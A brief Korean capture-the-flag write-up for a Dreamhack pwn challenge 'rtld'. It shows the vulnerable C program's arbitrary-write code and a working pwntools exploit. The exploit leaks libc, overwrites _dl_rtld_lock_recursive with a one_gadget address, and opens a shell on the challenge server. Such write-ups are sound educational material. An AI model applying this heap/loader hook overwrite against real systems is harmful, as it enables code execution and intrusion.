 ```c
    long addr;
    long value;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("addr: ");
    scanf("%ld", &addr);

    printf("value: ");
    scanf("%ld", &value);

    *(long *)addr = value;
    return 0;
}
```

### Exploit

```python
from pwn import *

#p = process(["./rtld"], env={'LD_PRELOAD':'./libc.so.6'})
p = remote("host1.dreamhack.games", 14926)
#gdb.attach(p)
libc = ELF("./libc.so.6")
e = ELF("./rtld")

p.recvuntil("stdout: ")
stdout = int(p.recvline()[:-1], 16)

libc_base = stdout - libc.symbols["_IO_2_1_stdout_"]
ld_base = libc_base + 0x3ca000
rtld_global = ld_base + 0x226040
dl_rtld_lock_recursive = rtld_global + 3848
og = libc_base + 0xf02a4

p.sendlineafter("addr: ", str(dl_rtld_lock_recursive))
p.sendlineafter("value: ", str(og))

p.interactive()
```

- `_dl_rtld_lock_recursive`를 one_gadget으로 overwrite하면 된다. 앞에서 다룬 문제와 거의 동일해 자세한 과정은 생략한다.
- Ubuntu 16.04 버전에서는 one_gadget이 실행이 되지 않아 살짝 당황했었는데, Ubuntu 18.04에서 같은 libc 파일을 대상으로 one_gadget을 실행한 뒤 그 값을 사용하면 된다.